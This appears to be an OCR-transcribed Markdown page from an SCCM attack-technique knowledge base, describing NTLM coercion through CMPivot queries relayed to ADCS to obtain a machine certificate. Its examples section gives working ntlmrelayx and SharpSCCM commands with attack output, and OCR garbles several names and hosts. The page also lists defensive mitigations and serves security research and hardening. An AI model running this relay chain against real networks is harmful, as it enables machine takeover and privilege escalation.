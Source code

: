 ```yaml
---
title: 'COERCE-1'
description: 'NTLM coercion leveraging CMPivot queriesX'
source: 'subat0mik/Misconfiguration-Manager'
---
```


## MITRE ATT&CK TTPs
- [T1187](https://attack.mitre.org/techniques/T1187/) - Forced Authentication

## Requirements
- Run CMPivot permission on the Collection
- Read permission on Inventory Reports
- Read permissions on Devices and Collections.

## Summary
CMPivot queries can be used to coerce SMB authentication from SCCM client hosts

A user with CMPivot query execution permissions can trigger a query pointing to a UNC path. This will coerce the SYSTEM account of the query target to authenticate against the resource at the UNC path.

SMB authentication can be relayed to a CA in the environment. If a vulnerable template exists then a certificate that allows for authentication can be obtained.

## Impact
This technique allows for taking over a machine object and privilege escalation within Active Directory environments.

## Defensive IDs
Some recommendations:

Disable NTLM where possible
Enforce Extended Protection for Authentication (EPA) along with SMB and LDAP signing. 
Prioritize Kerberos authentication and harden services like ADCS and IIS to block common relay paths.

## Examples
### CMPivot Coerce

Setup a listening relay server such as ntlmrelayx:
```
root@WORKSTATION$ proxychains python3 ntmrelayx.py -debug -smb2support --no-http-server \
-target http://10.0.0.6/certsrv/certrqus.asp --adcs —template "Machine"

[proxychains] DLL init: proxychains-ng 4.14
Impacket vo.10.0 - Copyright 2022 SecureAuth Corporation
[+] Impacket Library Installation Path: /usr/local/lib/python3.9/dist-packages/impacket-0.10.0-py3.9.egg/impacket
[+] Protocol Client SMB loaded..
[+] Protocol Protocol
```

Trigger a FileContent query. Here we use SharpSCCMs admin-service command against the '\\CLIENT1\test' UNC path:
```
C: \Users\LabAdmin\Desktop\shared>SharpSCM.exe invoke admin-service -q FileContent('\\CLIENT1\test') - r 16777220 -d 3

[+] Querying the local WMI repository for the current management point and site code
[+] Connecting to \\127.0.0.1\root\CCM
[+] Current management point: CM1. corp.contoso.com
[+] Site code: CHQ
[+] Sending query to AdminService
[+] URL: "https://CM1.corp.contoso.com/AdminService/v1.0/Device(16777220)/AdminService-RunCMPivot"
[!] Received a 400 ('Bad request') response from the API. Falling back to SMS Provider method
[+] Querying the local WMI repository for the current management point and site code
[+] Connecting to \\127.0.0.1\root\CCM
[+] Current management point: CM1.corp.contoso.com
[+] Site code: CHO
[+] Using WMI provider: M1. corp. contoso.com
[+] Connecting to ||CM1. corp. contoso. com\root\SMS|site_CHQ
[+] Fallback Method call succeeded
[+] Attempt 1 of 5: Checking for query
```

Wait for the relay server to do it's job and get us that b64 certificate blob:
```
[*] Servers started, waiting for connections
[*] SMBD- Thread-4: Received connection from 192.168.1.14, attacking target http://10.0.0.6
[proxychains] Strict chain ... 127.0.0.1:9191 ... 10.0.0.6:80 0K
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://10.0.0.6 as CORP/GW1$ SUCCEED
[*] No more targets
[*] SMBD-Thread-6: Connection from 192.168.1.14 controlled, but there are no more targets left!
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate..
[*] No more targets
[*] SMBD- Thread -7: Connection from 192.168.1.14 controlled, but there are no more targets left!
[*] GOT CERTIFICATE! ID 3
[*] Base64 certificate of user GW1$:
MIIRFQBAZCCEM8GCSqGSIb3DQEHAaCCEMAEghC8MIIQuDCCBu8GCSqGSb3DQEHBqCCBuAwggbcAgEAMIIG1QYJKoZIhvcNAQ
```

## References
- Microsoft, [Changes to CMPivot - ConfigurationManager] (https://learn.microsoft.com/en-us/intune/configmgr/core/servers/manage/cmpivot-changes)
- Chris Thompson, [Coercing NTLM Authentication from SCCM] (https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)
- Chris Thompson, [Relaying NTLM Authentication from SCCM client] (https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867)
